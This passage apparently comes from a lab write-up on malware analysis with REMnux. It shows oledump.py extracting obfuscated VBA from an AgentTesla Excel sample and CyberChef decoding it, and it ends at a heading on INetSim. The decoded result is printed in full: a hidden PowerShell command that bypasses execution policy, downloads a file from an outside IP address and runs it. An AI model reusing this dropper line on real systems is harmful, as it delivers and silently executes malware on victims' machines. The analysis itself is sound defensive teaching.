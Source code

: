![CyberChef Deobfuscation Output](https://github.com/user-attachments/assets/831e819b-1456-4e60-b420-29dbb500e354)

### 🧪 Analyzing a Malicious Excel Document

Navigate to:

```bash
cd ~/Desktop/tasks/agenttesla/
oledump.py agenttesla.xlsm
```

Output shows streams (`A`, `A1`, ..., `A6`), where:
- `M` = macro present
- `A4` = `VBA/ThisWorkbook` contains embedded VBA

### 📤 Dumping the Macro

```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

🔎 Extracts and decompresses obfuscated VBA code.

Key variable:

```vb
Sqtnew = "^p*o^*w*e*r..."
```

### 🧰 CyberChef - Deobfuscation

Steps:
1. Copy Sqtnew string
2. Paste into CyberChef (online or in-VM version)
3. Add:
   - Find/Replace `*` → `""`
   - Find/Replace `^` → `""`

📜 Final output:

```powershell
powershell -WindowStyle hidden -executionpolicy bypass
Invoke-WebRequest -Uri "http://193.203.203.67/..." -OutFile $TempFile
Start-Process $TempFile
```

💡 This confirms the Excel file is a **dropper**, downloading and executing malware silently.

---

## 🌐 Task 4 - Fake Network with INetSim


![REMnux + AttackBox Tabs](https://github.com/user-attachments/assets/bda53a10-81b7-49d4-a80f-49d87cdae4ff)

![Accept Risk Page - INetSim Access](https://github.com/user-attachments/assets/5c307055-bebc-4f03-ade8-20e165836e85)
